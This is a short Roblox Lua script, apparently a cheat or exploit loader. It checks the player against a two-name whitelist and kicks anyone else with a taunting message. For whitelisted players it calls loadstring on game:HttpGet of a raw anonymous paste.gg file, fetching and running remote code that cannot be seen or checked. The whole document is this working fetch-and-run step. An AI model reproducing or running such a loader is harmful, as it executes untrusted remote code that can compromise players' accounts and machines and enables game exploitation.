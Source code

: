 -- gr1u updated whitelist

local WhitelistedUsernames = {
    ["Dragonblox836"] = true,
    ["widebodymhk"] = true
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local username = player.Name
    return WhitelistedUsernames[username] == true
end

if isWhitelisted(Player) then
    loadstring(game:HttpGet("https://paste.gg/p/anonymous/ec746110a98147efaefe0dd955e38264/files/65275454bab040e7a396cb4f19ca31f9/raw"))()
else
    game.Players.LocalPlayer:Kick("BlackListed - Restless.dreams DOESNT fwu😂.")
end
